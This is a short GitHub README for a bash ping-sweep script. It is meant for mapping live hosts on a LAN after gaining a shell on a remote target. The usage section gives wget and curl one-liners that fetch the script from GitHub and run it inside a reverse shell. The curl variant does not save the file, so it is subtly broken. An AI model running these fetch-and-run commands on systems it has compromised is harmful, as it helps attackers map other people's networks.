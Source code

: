 # yaIPs - Yet another ipsweeping script 
Just like any other IPSweep script, yaIPs.sh sends ICMP packets to the entire current LAN. As soon as 
I had a shell to the remote target, I wanted to identify all reachable IPv4 addresses as quick as 
possible. It's just easiest if I process the current address right away instead of manually disassembling 
it and specifying it as an argument. Of course, sometimes this is also needed, so I can simply specify 
the desired network potion as the first parameter. 

# Usage
- Paste this into your reverse shell:
```bash
wget https://raw.githubusercontent.com/fhAnso/yaIPs/main/yaIPs.sh && bash yaIPs.sh
```
- or:
```bash
curl https://raw.githubusercontent.com/fhAnso/yaIPs/main/yaIPs.sh && bash yaIPs.sh
``` 
